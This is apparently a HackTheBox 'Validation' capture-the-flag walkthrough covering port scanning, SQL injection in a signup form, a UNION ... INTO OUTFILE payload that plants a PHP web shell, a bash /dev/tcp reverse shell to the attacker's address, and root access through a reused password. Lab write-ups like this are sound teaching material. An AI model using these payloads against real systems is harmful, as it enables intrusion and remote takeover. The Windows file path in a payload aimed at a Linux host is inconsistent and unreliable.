







# HackTheBox Validation Walkthrough"

I've been experimenting with Rustscan lately and it's a lot faster than NMAP.

Here's the GitHub Link. [https://github.com/RustScan/RustScan](https://github.com/RustScan/RustScan)

rustscan -a 10.10.11.116 -- -A -Pn -T4 -sC -sV

Open 10.10.11.116:22
Open 10.10.11.116:80
Open 10.10.11.116:4566
Open 10.10.11.116:8080

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.48 ((Debian))
| http-methods: 
|\_  Supported Methods: GET HEAD POST OPTIONS
|\_http-server-header: Apache/2.4.48 (Debian)
|\_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    syn-ack nginx
|\_http-title: 403 Forbidden
8080/tcp open  http    syn-ack nginx
|\_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel

We got a few ports open, 80 is the most interesting right now.

The WebApp is vulnerable to stored XSS as well as reflective XSS but that doesn't really help us much.

Intercepting the request in Burp when clicking "Join Now". We can try to see if SQLi is possible.

Adding a ' after Brazil returns an error. The Web App is likely vulnerable to a SQLi attack.

You may have to copy the response cookie into the request cookie to get the error to show up.

' union select version()-- -

You will need to URL encode that line to get it to work.

The Web App returns MariaDB 10.5.11. We executed a successful SQLi attack and got some information disclosure.

Next, let's try and get a reverse shell.

Upon searching the net, I figured out I could upload a file using MariaDB.

' UNION SELECT "<?php SYSTEM($\_REQUEST\['cmd'\]) ?>" INTO OUTFILE "C:\\wamp64\\www\\wordpress/shell.php"-- -

The WebApp will return an error, however if we visit the link http://10.10.11.116/shell.php We can see that it's working.

I tried to check what is in /bin to see what program I can use for the reverse shell.

bash is running, that's all I need.

I got my reverse shell one liner from this useful website [https://www.revshells.com/](https://www.revshells.com/)

Start a NC listener on the Kali machine.

nc -lnvp 9999

Now this took me a while to figure out.

bash -i >& /dev/tcp/10.10.14.19/4444 0>&1

This line needs to be encoded and passed to bash -c.

Here is the final URL.

http://10.10.11.116/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.19/9999+0>%261'

And we've got a shell!

The next part was pretty easy. We can use python HTTP server and curl to get linpeas.sh over or we can simply look in config.php to get the password.

The password is for a username, but it also happens to work for root.

And we're all done!
